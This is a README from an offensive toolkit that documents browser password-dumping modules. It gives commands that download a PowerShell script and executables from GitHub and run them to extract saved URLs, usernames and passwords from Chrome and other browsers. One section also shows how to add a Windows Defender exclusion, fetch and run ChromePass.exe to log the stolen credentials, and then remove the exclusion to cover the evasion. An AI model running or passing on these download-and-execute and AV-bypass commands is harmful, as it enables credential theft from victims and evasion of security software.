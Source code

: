 ## Module Name
   <b><i>DumpChromePasswords.ps1</i></b>

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|DumpChromePasswords|dumps URLs, usernames, and passwords from Chrome.|User Land|Only dumps chrome browser|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/DumpChromePasswords.ps1" -OutFile "DumpChromePasswords.ps1"
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip" -OutFile "sqlite-netFx40-static-binary-bundle-x64-2010-1.0.113.0.zip"
```

**prerequisites:**
``` 
   1. You must have the System.Data.SQLite.dll handy (see below)
   2. Your database must be accessible (close Chrome, or make some copy)
   3. It must by your database. If Chrome cannot open it, the script will probably fail as well.
```

```powershell
.\DumpChromePasswords.ps1
```

<br />


## Module Name
   <b><i>HarvestBrowserPasswords.exe</i></b>

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|HarvestBrowserPasswords|dumps URLs, usernames, and passwords from major browsers.|User Land|Dumps major browsers|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/HarvestBrowserPasswords.exe" -OutFile "HarvestBrowserPasswords.exe"
```

```powershell
.\HarvestBrowserPasswords.exe -a, --all
.\HarvestBrowserPasswords.exe -f, --firefox
.\HarvestBrowserPasswords.exe -c, --chrome
```

<br />


## Module Name
   <b><i>ChromePass.exe - UNDER-DEVELOP (NOT-STABLE)</i></b>
   
|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|ChromePass|dumps usernames, passwords from chrome|Administrator|[Invoke-Exclusions.ps1](https://github.com/r00t-3xp10it/redpill/tree/main/lib/WD-Bypass#module-name) - Evade AV\Download PE\Exec PE|

```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WD-bypass/Invoke-Exclusions.ps1" -OutFile "Invoke-Exclusions.ps1"
```

<br />

**prerequesites checks:**
```powershell
#Make sure Windows Defender service its running
[bool](Get-Service -Name WinDefend)

#Make sure we have administrator privileges in shell
[bool](([System.Security.Principal.WindowsIdentity]::GetCurrent()).groups -match "S-1-5-32-544")

#Make sure required modules are present\loaded
[bool]((Get-Module -ListAvailable -Name ConfigDefender).ExportedCommands|findstr /C:"Set-MpPreference")
```

```powershell
#Get Exclusions List
.\Invoke-Exclusions.ps1 -action "query"

## Add WD exclusion (To execute ChromePass.exe) + download URI (ChromePass.exe)  + execute (ChromePass.exe)
# exclusion cmdline: Set-MpPreference -ExclusionPath "C:\Users\pedro\AppData\Local\Temp" -Force
.\Invoke-Exclusions.ps1 -action "exec" -type "ExclusionPath" -Exclude "$Env:TMP" -Uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/Dump-Browser/ChromePass.exe" -Arguments "/stext credentials.log"

#Remove ExclusionPath "$Env:TMP" from Windows Defender list
.\Invoke-Exclusions.ps1 -action "del" -type "ExclusionPath" -Exclude "$Env:TMP"
```
